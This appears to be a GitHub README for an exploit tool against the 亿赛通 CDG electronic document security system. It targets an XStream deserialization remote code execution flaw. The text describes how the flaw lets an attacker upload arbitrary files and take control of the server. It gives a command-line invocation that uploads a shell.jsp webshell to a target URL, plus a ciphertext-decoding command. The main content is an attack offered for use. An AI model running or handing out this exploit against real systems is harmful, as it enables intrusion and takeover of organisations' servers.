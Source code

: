 # CDGXStreamDeserRCE

> 亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全防护软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产。亿赛通电子文档安全管理系统存在XStream反序列化远程代码执行漏洞，攻击者可利用该漏洞对服务器上传任意文件，进而控制服务器权限。


## 使用

本地文件上传利用

```bash
java -jar CDGXStreamDeserRCE.jar -t http://192.168.1.1:8443 -uf shell.jsp -p http://127.0.0.1:8080
```

密文解码

```bash
java -jar CDGXStreamDeserRCE.jar -d FEPCCCLCENHIPOAFPAPDDFCGEAPNMDBMOJPMJAKKNPHOKIKIDCBPHEGKLDGNHCBDEIMODEKMKPFBAIMMNLOJJKMIICLAPJAAFGNGAKFBMPKPJMOIKODEJJMHJCCHKBMFMMFDLOMDPABOJCEAPOFDCPMKGDHFNBBIMCIPAMMIIANFPAJHFAABLLLANNIDAGNKOHONJGFGBKHFDMCLJIMICBHBJEIAAIMACN
```
<img width="1624" alt="image" src="https://user-images.githubusercontent.com/40891670/209945515-1539ff6b-e4c4-46a3-8764-7aa3a7568741.png">


## References

- https://github.com/woodpecker-framework/ysoserial-for-woodpecker
